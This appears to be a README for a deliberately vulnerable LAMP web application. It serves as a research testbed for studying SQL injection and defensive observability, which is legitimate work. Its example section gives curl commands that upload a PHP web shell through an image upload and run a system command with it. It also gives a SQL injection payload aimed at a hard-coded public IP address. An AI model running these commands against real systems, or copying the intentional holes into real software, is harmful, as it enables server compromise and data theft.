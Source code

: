 # Web Server

## Requirements

For example, the exemplar assumes SQL injection is possible on the vendor web portal, **the web application where the contractor can submit invoices to the enterprise**. Additionally, the exemplar assumes a misconfiguration of the SQL server; in this example, **the SQL server is a Microsoft SQL server running with administrator privileges and has PowerShell enabled, allowing for command line interaction with the server.** The SQL injection will have a different level of observability and different set of defense tactics than network reconnaissance. This enables researchers to explore strategies such as focusing defensive tactics on increasing attack observability.

### To-Do List

- [X] test new sql file
- [X] set password in the insertion of data
- [X] test display
- [X] test sql injection
- [ ] automate sql injection
- [ ] all done!

### LAMP

- Linux
- Apache Web Server
- MySQL Database Server
- PHP: backend programming language

### Database

#### Table&Column

- user
- user_group
- target_order

### Web Pages

- [login/register](https://www.tutorialspoint.com/php/php_mysql_login.htm)
- welcome
- search
- user profile(for photo uploading)



## SQL injections example

#### 1. Shell Injection

```shell
$ curl -F "image=@path/shell.php" http://IP_address/upload.php
$ curl -X GET  http://IP_address/images/shell.php\?cmd\=uname
```

#### 2. SQL Injection 




```shell
input query string: `anything%' OR 'x' LIKE '%x`
$ curl -X GET  http://52.37.128.197/index.php?query=anything%25%27+OR+%27x%27+LIKE+%27%25x
```



## Extensibility

1. Create your own database using your sql file
2. Modify the PHP source files, including functions and the level of security 



## References

[SQL injection](http://php.net/manual/en/security.database.sql-injection.php)